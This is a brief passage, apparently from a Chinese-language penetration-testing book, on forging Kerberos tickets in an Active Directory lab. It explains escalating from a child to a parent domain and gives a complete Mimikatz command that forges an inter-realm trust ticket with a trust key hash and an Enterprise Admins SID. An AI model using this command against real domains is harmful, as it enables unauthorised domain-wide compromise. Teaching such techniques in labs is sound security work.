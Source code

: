 图 6.29 – 伪造的金票证提供对父域中域控制器的访问

第二种选择是创建一个使用信任密钥加密的 TGT（目标票证）推荐票证。信任密钥的名称格式为 `domain$`。伪造跨域票证的命令如下：

```
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /rc4:b595f2a41d4579ae6faa122b74b37ccb /service:krbtgt /target:sevenkingdoms.local /ptt
```

以下结果与伪造金票证获得的结果相同：

![图 6.30 – 伪造的跨域票证提供对父域中域控制器的访问](img/B18964_06_30.jpg)
